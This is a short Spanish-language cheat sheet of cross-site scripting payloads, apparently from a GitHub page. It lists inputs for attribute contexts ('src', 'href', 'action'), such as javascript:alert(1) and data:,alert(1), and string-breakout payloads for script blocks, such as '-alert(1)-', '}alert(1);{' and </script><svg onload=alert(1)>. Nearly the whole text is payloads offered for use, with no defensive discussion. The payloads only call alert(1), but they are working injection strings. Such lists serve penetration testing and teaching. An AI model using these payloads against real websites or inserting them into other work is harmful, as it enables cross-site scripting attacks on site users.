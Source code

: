 ## Source Injection

Úselo cuando la entrada aterrice como un valor de los siguientes atributos de etiqueta HTML: 

```
"href", "src", "data", "action" o "<form action=>""
```

El atributo "src" en las etiquetas de "script" puede ser:

```
src=URL

src="data:,alert(1)"

src=javascript:alert(1)

src='javascript:alert(1)'

src=‘javascript:alert(1)‘

src=’javascript:alert(1)’

src=‘javascript:alert(1)’
```

## Script Injection

Úselo cuando la entrada aterrice en un bloque "script", dentro de un valor delimitado por cadena:

```
'-alert(1)-'

'/alert(1)//

‘-alert(1)-’

‘/alert(1)//

\'/alert(1)//

</script><svg onload=alert(1)>

></script><svg onload=alert(1)>

"></script><svg onload=alert(1)>

'}alert(1);{'

'}alert(1)%0A{'

\'}alert(1);{//

/alert(1)//\

/alert(1)}//\
```
